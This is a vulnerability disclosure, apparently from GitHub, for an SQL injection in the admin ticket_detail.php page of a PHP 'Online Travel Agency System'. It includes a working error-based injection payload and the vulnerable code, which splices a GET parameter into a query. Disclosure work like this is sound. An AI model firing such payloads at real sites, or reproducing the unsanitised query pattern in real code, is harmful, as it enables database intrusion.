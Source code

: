 # [Online Travel Agency System-SQL Injection-ticket_detail.php]

## Basic Information

**[Bug Reporter]:**  DililLearngent

**[Application Vendors]:**  https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:**Online Travel Agency System V1.0

**[Test Environment]:**  windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://10.142.221.111/Travel/admin/ticket_detail.php?ticket_id=15`    

**[Vulnerability Location]:** Travel/admin/ticket_detail.php

**[Vulnerability Test]:**

1. payload:`ticket_id=15%27%20and%20extractvalue(1,concat(0x7e,(select%20database()),0x7e))--+`

   ![](../../img/20230428164836.png)

   The database name was obtained from the above payload execution.

**[code analysis]:**

Travel/admin/ticket_detail.php

```php
<?php 
  $sql="select*from ticket where ticket_id='$_GET[ticket_id]'";
  $result=mysqli_query($con,$sql) or die(mysqli_error($con));
  while($row=mysqli_fetch_array($result))
  { //	  	 	 	 	 	 	 	 	 	 		 	 	 	 	
	  $ticket_id=$row["ticket_id"];
	  $ticket_no=$row["ticket_no"];
	  $costomer_id=$row["costomer_id"];
	  $date=$row["date"];
	  $sector_from=$row["sector_from"];
	  $sector_to=$row["sector_to"];
	  $airline_name=$row["airline_name"];
	  $airline_no=$row["airline_no"];
	  $date_of_insertion=$row["date_of_insertion"];
	  $inserted_by=$row["inserted_by"];// 
  }
  ?>
```

The GET parameter `ticket_id` is obtained without any filtering and spliced directly into the sql execution statement, and display the errors returned by the database execution back to the front-end page.

